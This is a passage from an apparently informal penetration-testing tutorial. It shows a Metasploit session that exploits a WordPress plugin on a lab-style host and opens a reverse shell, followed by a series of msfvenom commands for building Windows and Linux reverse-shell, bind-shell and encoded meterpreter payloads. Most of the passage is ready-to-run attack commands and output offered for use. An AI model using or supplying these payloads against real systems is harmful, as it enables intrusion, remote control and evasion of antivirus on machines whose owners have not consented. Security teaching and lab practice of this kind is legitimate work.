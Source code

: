Now set exploit

```
msf5 exploit(unix/webapp/wp_platform_exec) > set RHOST 10.10.10.35
RHOST => 10.10.10.35
msf5 exploit(unix/webapp/wp_platform_exec) > set RPORT 80
RPORT => 80
msf5 exploit(unix/webapp/wp_platform_exec) > set TARGETURI 10.10.10.35/wp_plugin
TARGETURI => 10.10.10.35/wp_plugin
msf5 exploit(unix/webapp/wp_platform_exec) > run

[*] Started reverse TCP handler on 192.168.43.209:4444 
[*] Uploading payload
```

And this will exploit the vulnerabilty on the target and you will get meterpreter shell on your metasploit-framework.


**Msfvenom**

Its my personal favourite, i will explain to use it in my way.

```
msfvenom -l
```


Lets create a windows reverse TCP shell


Launch your terminal and execute command below

```
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > hackershell.exe
```
To create encoded windows reverse TCP shell

```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > enchackershell.exe
```
To create linux Bind Shell

```
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > hacker.elf
```


To create linux Meterpreter Reverse Shell

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > hacker.elf
```

To create linux Bind Meterpreter Shell

```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > hacker.elf
```

